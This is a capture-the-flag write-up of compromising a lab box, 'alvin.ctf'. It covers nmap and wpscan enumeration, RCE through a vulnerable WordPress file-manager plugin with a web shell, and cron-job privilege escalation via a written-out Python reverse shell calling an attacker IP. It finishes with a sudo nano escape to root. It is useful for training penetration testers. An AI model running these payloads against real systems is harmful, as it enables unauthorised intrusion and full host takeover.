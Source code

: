 First of all we run our nmap scan

```shell
# Nmap 7.94 scan initiated Sun Sep 17 03:46:45 2023 as: nmap -p- -sVC --min-rate=100 -T4 -v -oN nmap.txt 10.10.236.81
Warning: 10.10.236.81 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.10.236.81
Host is up (0.18s latency).
Not shown: 65467 closed tcp ports (conn-refused), 66 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:83:00:8b:1e:f6:db:8d:69:70:00:b1:10:90:0f:93 (RSA)
|   256 4a:11:ce:20:5e:0e:07:95:ec:60:0e:b6:4b:b2:e1:dd (ECDSA)
|_  256 78:3a:9a:ea:5b:a2:e8:b7:bd:43:a7:b3:fe:a6:3b:11 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: HEAD GET POST OPTIONS
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Sep 17 04:04:07 2023 -- 1 IP address (1 host up) scanned in 1041.73 seconds
```

Navigating to port `80/HTTP` we have a "**site under construction**" page

![](https://i.imgur.com/lH493sY.png)


Viewing `Page-Source` we have a commented message that tells us to add **alvin.ctf** to our `/etc/hosts` file

![](https://i.imgur.com/rC5MMY5.png)

We can do these with the following syntax, then adding the `10.10.236.81    alvin.ctf` line to this file

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD/ZSCTF4$ sudo nano /etc/hosts
[sudo] password for sec-fortress: 

--SNIP--
127.0.0.1       localhost
127.0.1.1       Pwn-F0rk-3X3C
10.10.236.81    alvin.ctf
--SNIP--
```

Running our directory bruteforce we have an endpoint called, **wordpress**

![](https://i.imgur.com/huIN1w1.png)

Navigating to the **wordpress** directory we have a website

![](https://i.imgur.com/z14Qgzo.png)

I then decided to run a wordpress scanning tool called `wp-scan`

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD/ZSCTF4$ wpscan --url alvin.ctf/wordpress/

--SNIP--
[+] URL: http://alvin.ctf/wordpress/ [10.10.236.81]                                                                   
[+] Started: Sun Sep 17 04:10:14 2023                                                                                                                                                                                                       

Interesting Finding(s):                                                                                               

[+] Headers                                                                                                           
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)                                                                  
 | Found By: Headers (Passive Detection)                                                                              
 | Confidence: 100%                                                                                                   

[+] XML-RPC seems to be enabled: http://alvin.ctf/wordpress/xmlrpc.php                                                
 | Found By: Direct Access (Aggressive Detection)                                                                     
 | Confidence: 100%                                                                                                   
 | References:                                                                                                        
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API                                                                                                                                                                                       
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/                                                                                                                                                     
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/                                      
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/                                                                                                                                                      
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/                                                                                                                                                   

[+] WordPress readme found: http://alvin.ctf/wordpress/readme.html                                                    
 | Found By: Direct Access (Aggressive Detection)                                                                     
 | Confidence: 100%                                                                                                                                                                                                                         

[+] Upload directory has listing enabled: http://alvin.ctf/wordpress/wp-content/uploads/                                                                                                                                                    
 | Found By: Direct Access (Aggressive Detection)                                                                                                                                                                                           
 | Confidence: 100%                                                                                                   

[+] The external WP-Cron seems to be enabled: http://alvin.ctf/wordpress/wp-cron.php                                  
 | Found By: Direct Access (Aggressive Detection)                                                                     
 | Confidence: 60%                                                                                                    
 | References:                                                                                                        
 |  - https://www.iplocation.net/defend-wordpress-from-ddos                                                           
 |  - https://github.com/wpscanteam/wpscan/issues/1299                                                                

[+] WordPress version 5.6 identified (Insecure, released on 2020-12-08).                                              
 | Found By: Rss Generator (Passive Detection)                                                                        
 |  - http://alvin.ctf/wordpress/feed/, <generator>https://wordpress.org/?v=5.6</generator>                                                                                                                                                 
 |  - http://alvin.ctf/wordpress/comments/feed/, <generator>https://wordpress.org/?v=5.6</generator>                                                                                                                                        

[+] WordPress theme in use: twentyseventeen                                                                           
 | Location: http://alvin.ctf/wordpress/wp-content/themes/twentyseventeen/                                                                                                                                                                  
 | Last Updated: 2023-03-29T00:00:00.000Z                                                                             
 | Readme: http://alvin.ctf/wordpress/wp-content/themes/twentyseventeen/readme.txt                                    
 | [!] The version is out of date, the latest version is 3.2                                                          
 | Style URL: http://alvin.ctf/wordpress/wp-content/themes/twentyseventeen/style.css?ver=20201208                                                                                                                                           
 | Style Name: Twenty Seventeen                                                                                                                                                                                                             
 | Style URI: https://wordpress.org/themes/twentyseventeen/                                                           
 | Description: Twenty Seventeen brings your site to life with header video and immersive featured images. With a fo...                                                                                                                     
 | Author: the WordPress team                                                                                         
 | Author URI: https://wordpress.org/                                                                                 
 |                                                                                                                    
 | Found By: Css Style In Homepage (Passive Detection)                                                                
 | Confirmed By: Css Style In 404 Page (Passive Detection)                                                            
 |                                                                                                                    
 | Version: 2.5 (80% confidence)                                                                                      
 | Found By: Style (Passive Detection)
 
 |  - http://alvin.ctf/wordpress/wp-content/themes/twentyseventeen/style.css?ver=20201208, Match: 'Version: 2.5'                                                                                                                            

[+] Enumerating All Plugins (via Passive Methods)                                                                     

[i] No plugins Found.                                                                                                 

[+] Enumerating Config Backups (via Passive and Aggressive Methods)                                                   
 Checking Config Backups - Time: 00:00:26 <=============================================================================================> (137 / 137) 100.00% Time: 00:00:26                                                                

[i] No Config Backups Found.                                                                                          

[!] No WPScan API Token given, as a result vulnerability data has not been output.                                    
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register                                                                                                                                       

[+] Finished: Sun Sep 17 04:11:42 2023                                                                                
[+] Requests Done: 169                                                                                                
[+] Cached Requests: 6                                                                                                
[+] Data Sent: 44.029 KB                                                                                              
[+] Data Received: 426.373 KB                                                                                         
[+] Memory used: 259.102 MB                                                                                           
[+] Elapsed time: 00:01:27                                                            
```

Checking the `REAME.html` file i was able to find the login page at `http://alvin.ctf/wordpress/wp-login.php`

![](https://i.imgur.com/LNykd90.png)

I decided to enumerate for usernames and since i know we got a clue to the username, **Alvin**, well it existed, I tried several method to bypass login including bruteforcing but to no avail 😓

![](https://i.imgur.com/ZB9sU3k.png)

Then i remember a wise man once said always enumerate plugins, at least we don't need to be authenticated before we can enumerate plugins, Navigating to `http://alvin.ctf/wordpress/wp-content/plugins/` we can see the list of available plugins.

![](https://i.imgur.com/THsNCIy.png)


Enumerating these plugins , i found out the **wp-file-manager** plugin is vulnerable to `RCE`, You can get the exploit from [here](https://github.com/BLY-Coder/Python-exploit-CVE-2020-25213)

![](https://i.imgur.com/z5vSmZB.png)

Launching our exploit we can transfer a web shell to the target then navigate to where it is located in our browser

![](https://i.imgur.com/Iuyi0t0.jpg)

![](https://i.imgur.com/ArC8HAJ.png)

As we can see, Now we can execute commands here and it should work just fine, i will be using a PHP reverse shell payload gotten from https://www.revshells.com/

![](https://i.imgur.com/B2ByDho.png)

### Privilege Escalation

We have a cron job running on the user **Alvin's** home directory, it is running a executing a python file

![](https://i.imgur.com/YfPg9ge.png)

We can manipulate this file, by overwriting it with these particular payload, Make sure to replace `ATTACKER_ip` with your respective IP and `PORT` with desire port

```shell
import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_ip",PORT));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash -i")
```

Save this file and start up a `netcat` listener, you should get shell as user **Alvin** back

![](https://i.imgur.com/0uEPSDj.png)

Doing `sudo -l` we can run the `Nano` command line text editor with sudo privileges, this can be used to read and write to password files like **/etc/shadow** and **/etc/passwd** 

![](https://i.imgur.com/E0d2b1g.png)

But we are gonna try out new stuff, we can use `nano` to get a direct shell instead

- First of all do `sudo /bin/nano`
- Then `Ctrl+r`
- Then `Ctrl+x`
- Then Paste in the command below and you should have shell as root

```shell
reset; sh 1>&0 2>&0
```

![](https://i.imgur.com/aLTK1W0.png)

Enjoy your weekends and have fun 😘

<iframe src="https://giphy.com/embed/ff54BctkWA5ry" width="480" height="216" frameBorder="0" class="giphy-embed" allowFullScreen></iframe><p><a href="https://giphy.com/gifs/bleach-ichigo-vasto-lorde-ff54BctkWA5ry"></a></p>

